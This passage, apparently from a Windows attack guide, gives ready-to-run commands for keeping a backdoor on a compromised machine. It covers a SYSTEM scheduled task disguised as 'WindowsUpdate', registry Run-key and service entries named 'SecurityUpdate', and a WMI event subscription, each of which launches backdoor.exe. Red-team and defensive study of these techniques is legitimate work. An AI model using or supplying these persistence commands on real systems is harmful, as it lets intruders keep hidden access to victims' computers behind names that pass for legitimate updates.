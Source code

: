 
## Advanced Persistence Techniques

### Scheduled Tasks
```cmd
# Create scheduled task for persistence
schtasks /create /tn "WindowsUpdate" /tr "C:\Windows\temp\backdoor.exe" /sc daily /st 09:00 /ru SYSTEM

# Query scheduled tasks
schtasks /query /fo LIST /v | findstr "backdoor"

# Delete scheduled task
schtasks /delete /tn "WindowsUpdate" /f
```

### Registry Persistence
```cmd
# Current User Run key
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v "SecurityUpdate" /t REG_SZ /d "C:\Windows\temp\backdoor.exe"

# Local Machine Run key (requires admin)
reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v "SecurityUpdate" /t REG_SZ /d "C:\Windows\temp\backdoor.exe"

# Services key
reg add HKLM\System\CurrentControlSet\Services\MyService /v ImagePath /t REG_SZ /d "C:\Windows\temp\backdoor.exe"
```

### WMI Event Subscription
```powershell
# Create WMI event filter
$Filter = Set-WmiInstance -Class __EventFilter -Namespace "root\subscription" -Arguments @{
    Name="ProcessStartFilter"
    EventNameSpace="root\cimv2"
    QueryLanguage="WQL"
    Query="SELECT * FROM Win32_ProcessStartTrace WHERE ProcessName='notepad.exe'"
}

# Create WMI event consumer
$Consumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace "root\subscription" -Arguments @{
    Name="ProcessStartConsumer"
    CommandLineTemplate="C:\Windows\temp\backdoor.exe"
}

# Bind filter to consumer
Set-WmiInstance -Class __FilterToConsumerBinding -Namespace "root\subscription" -Arguments @{
    Filter=$Filter
    Consumer=$Consumer
}
```

---

The guide covers all major techniques from basic enumeration to advanced persistence and cleanup procedures.
